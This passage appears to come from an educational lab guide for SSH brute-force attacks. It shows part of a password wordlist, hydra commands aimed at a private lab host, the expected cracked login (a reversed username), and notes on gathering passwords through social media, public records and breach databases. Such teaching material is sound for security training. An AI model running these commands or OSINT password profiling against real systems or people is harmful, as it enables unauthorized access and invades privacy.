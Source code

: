 ```bash
123456
admin
root
aadams
bbanter
ccoffee
ddeeds
eeikman
smadaa
retnabtb
eeffocc
sdeedd
namkie
company
deice
2003
2004
security
welcome
letmein
EOF

# Alternative: For comprehensive attack, use rockyou.txt
# hydra -L users.txt -P /usr/share/wordlists/rockyou.txt 172.20.0.3 ssh -t 4
```

### SSH Brute Force Attack

**Educational Brute Force Attack:**
```bash
hydra -L users.txt -P passwords.txt 172.20.0.3 ssh -t 4
```

**Expected Successful Credential:**
```
[22][ssh] host: 172.20.0.3   login: aadams   password: smadaa
```

**Teaching Points for Discussion:**

1. **Password Pattern Recognition:**
   - The successful password "smadaa" is "aadams" reversed
   - This demonstrates common weak password patterns users create
   - Students should learn to recognize and exploit such patterns

2. **Real-World OSINT Password Generation:**
   In practice, passwords would be discovered through:
   - **Social Media Research:** Facebook, LinkedIn, Twitter profiles revealing:
     - Pet names, children's names, birthdays
     - Hobbies, favorite sports teams, locations
     - Company events, project names
   - **Professional Networks:** LinkedIn job history, skills, connections
   - **Public Records:** Property records, business registrations
   - **Company Website:** Employee bios, company history, product names
   - **Breach Databases:** Previous password patterns for the target
